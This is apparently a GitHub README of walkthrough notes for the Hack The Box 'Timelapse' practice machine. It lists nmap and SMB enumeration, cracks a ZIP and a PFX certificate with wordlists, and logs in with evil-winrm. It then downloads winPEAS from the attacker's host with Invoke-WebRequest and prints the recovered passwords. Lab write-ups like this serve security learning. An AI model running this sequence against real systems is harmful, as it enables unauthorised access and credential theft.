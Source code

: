 <div id="top"></div>
<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->



<!-- PROJECT LOGO -->
<br />
<div align="center">

<h1 align="center">HTB Timelapse Notes</h1>

</div>

![Timelapse](https://user-images.githubusercontent.com/19478700/173301506-f8a85cbf-aafd-4028-85c9-63cfae763820.png)





<!-- ABOUT THE PROJECT -->
## About The Project
Timelapse HTB Machine


## Steps

### 1. Nmap Scans:
  ```sh
   nmap -p- 10.10.11.152
   ```
   ```sh
      PORT      STATE SERVICE          REASON
      53/tcp    open  domain           syn-ack ttl 127
      88/tcp    open  kerberos-sec     syn-ack ttl 127
      135/tcp   open  msrpc            syn-ack ttl 127
      139/tcp   open  netbios-ssn      syn-ack ttl 127
      389/tcp   open  ldap             syn-ack ttl 127
      445/tcp   open  microsoft-ds     syn-ack ttl 127
      464/tcp   open  kpasswd5         syn-ack ttl 127
      593/tcp   open  http-rpc-epmap   syn-ack ttl 127
      636/tcp   open  ldapssl          syn-ack ttl 127
      3268/tcp  open  globalcatLDAP    syn-ack ttl 127
      3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
      5986/tcp  open  wsmans           syn-ack ttl 127
      9389/tcp  open  adws             syn-ack ttl 127
      49667/tcp open  unknown          syn-ack ttl 127
      49673/tcp open  unknown          syn-ack ttl 127
      49674/tcp open  unknown          syn-ack ttl 127
      49696/tcp open  unknown          syn-ack ttl 127
      51231/tcp open  unknown          syn-ack ttl 127
   ```


```sh
   nmap -sVC 10.10.11.152
   ```


```sh
   PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-13 15:03:29Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?      syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
   ```
   
   

### 2.SMB Enumeration:
  ```sh
   smbclient -N -L 10.10.11.152
   ```

   ```sh
   Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
   ```

  Ivestiating we find several files on Shares share:

   ```sh
   smbclient \\\\10.10.11.152\\Shares
   ```

   ```sh
    LAPS_Datasheet.docx               LAPS.x64.msi
    LAPS_OperationsGuide.docx         winrm_backup.zip
    LAPS_TechnicalSpecification.docx

   ```

  winrm_backup seems interesting but its password protected.
  DOCX Files contain documentation about how passwords are managed arround the directory.
  
### 3.Cracking ZIP:
  
  lets try to crack the zip
   ```sh
   fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
   ```
   ```sh
   PASSWORD FOUND!!!!: pw == supremelegacy
   ```
   Zip password was weak: supremelegacy
   We obtain legacyy_dev_auth.pfx
   
   

### 4.Cracking pfx:
  A quick Google search about extracting cert keys from pfx:
  https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
  but we need to obtain the pfx key first so we are gonna try to crack it using john
  Convert:
  ```sh
  pfx2john legacyy_dev_auth.pfx > pfx_john_legacy.hash
  ```
  
  ```sh
  john -w=/usr/share/wordlists/rockyou.txt pfx_john_legacy.hash 
  ```
  
  ```sh
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:13 DONE (2022-06-13 04:00) 0.007506g/s 24256p/s 24256c/s 24256C/s thuglife03282006..thug209
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
  Found pfx pass: thuglegacy
  
  Now lets extract key and cert:
  
  Extract cert:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -out cert.pem
   ```
   
   Extract priv key:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.pem -nodes
   ``` 
   
   After formatting the files correctly we can connect via ssh:
   
   ```sh
   evil-winrm -S -k formated/key.key -c formated/cert.crt -i 10.10.11.152
   ``` 

![image](https://user-images.githubusercontent.com/19478700/173311463-09780f02-46e4-4b45-8b29-035ae846986b.png)

  
##### USER FLAG OWNED

![image](https://user-images.githubusercontent.com/19478700/173313648-fb8d2a9d-8b5a-4d3f-9771-e3fec5ea63d3.png)


   
### 5:Privilege Escalation (System OWN):

Lets run winpeas:

```ps
Invoke-WebRequest -Uri 10.10.14.20:8000/winPEASx64.exe -OutFile winpeas.exe
````   
![image](https://user-images.githubusercontent.com/19478700/173314965-14ff10cc-c549-4570-9114-24cdf709562f.png)
![image](https://user-images.githubusercontent.com/19478700/173315089-57029e2f-f9dc-4e1f-8849-d6f241d79822.png)

![image](https://user-images.githubusercontent.com/19478700/173319106-86d50ee4-c091-474b-b2d8-5f94ed0e127d.png)

My pass is :  E3R$Q62^12p7PLlC%KWaxuaV


![image](https://user-images.githubusercontent.com/19478700/173321231-fa385579-6034-48a4-b496-8f10195f165c.png)
![image](https://user-images.githubusercontent.com/19478700/173321468-1b361114-94aa-478d-8529-0db4d7bc5ce3.png)


``sh
pass: : G!OSV[!-e[-w).,4rK6G,78/

``

![image](https://user-images.githubusercontent.com/19478700/173322498-724c5dc2-b14c-4b70-9d9e-5cf2c71e681c.png)



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- CONTACT -->
## Contact

Pol Galvez - polgalvezsoriano@gmail.com

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [aidenpearce369.github.io](aidenpearce369.github.io)

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/github_username/repo_name.svg?style=for-the-badge
[contributors-url]: https://github.com/github_username/repo_name/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/github_username/repo_name.svg?style=for-the-badge
[forks-url]: https://github.com/github_username/repo_name/network/members
[stars-shield]: https://img.shields.io/github/stars/github_username/repo_name.svg?style=for-the-badge
[stars-url]: https://github.com/github_username/repo_name/stargazers
[issues-shield]: https://img.shields.io/github/issues/github_username/repo_name.svg?style=for-the-badge
[issues-url]: https://github.com/github_username/repo_name/issues
[license-shield]: https://img.shields.io/github/license/github_username/repo_name.svg?style=for-the-badge
[license-url]: https://github.com/github_username/repo_name/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/linkedin_username
[product-screenshot]: images/screenshot.png
